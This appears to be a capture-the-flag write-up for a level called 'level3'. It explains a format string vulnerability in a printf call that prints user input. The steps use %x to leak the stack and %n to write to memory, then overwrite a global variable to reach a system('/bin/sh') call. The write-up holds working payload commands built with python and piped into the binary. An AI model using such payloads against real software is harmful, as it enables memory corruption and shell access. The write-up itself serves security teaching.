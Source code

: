 # String Attack

## Vuln

Passing a buffer write by user as argument to printf is a serious vulnerabilty.

```c
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  printf(local_20c);
```

If you don't provide arg, and if u pass for example %x to prinf, it will read and print hexa from the next address on the stack.

You can print the entire stack. And read data.

![img](/level03/ressources/error_printf.svg)
[website docu](https://axcheron.github.io/exploit-101-format-strings/)

## Write ?

Did you know, we cant write into data with printf ? `%n` do it.

```c
printf("AAAA%n", (int)a);
```

Will write, 4 in a.

4 because, it takes the value of 'AAAA' which is 4 bytes.

## m data ?

```c
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
```

m is a global variable, visible in the .bss section (Uninitialized data).

```bash
$> objdump -D level3 | grep -A 2 '<m>'
0804988c <m>:
 804988c:	00 00                	add    %al,(%eax)
```

To make it work, we need overwrite m at address 0x0804988c equal to 0x40.

## Exploit

I need write in the buffer the address of the m data, point on it with %x$n (where 'x' is a integer) and write 0x40 byte inside.

`%6$x` mean print int hexa, the 6th argument (so 6th address on the stack).

because if i do that:

```bash
$> python3 -c 'print("\x8c\x98\x04\x08" + "%n")' | ./level3
       14337 segmentation fault (core dumped)  ./level3
```

of course it seg fault, it try write 4 byte into first argument on the stack. We need to find the start of the buffer where we write the exact address of the m data.

```bash
$> ./level3
AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.

AAAA00000200.f7e26620.00000000.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.
```

Bingo, we find where on the stack is store the buffer `41414141` is hexa for `A` char.

Now if we write address of m, and pass %4$n, it will write 4 into m.

```bash
python2.7 -c 'import sys; sys.stdout.write(b"\x8c\x98\x04\x08" + b"%4$n")' | ./level3
```

(m = 4);

Final step is to pass to the payload an offset for print the value we want. We cant do it with : ```%<y>x``` (where y is an integer).

For example `printf("%2x")` will print two space;

So final payload is: 

```bash
cat <(python2.7 -c 'import sys; sys.stdout.write(b"\x8c\x98\x04\x08"+ b"%60x" + b"%4$n")') -| ./level3
```

address + offset(64 / 0x40) - len(address) + %4$n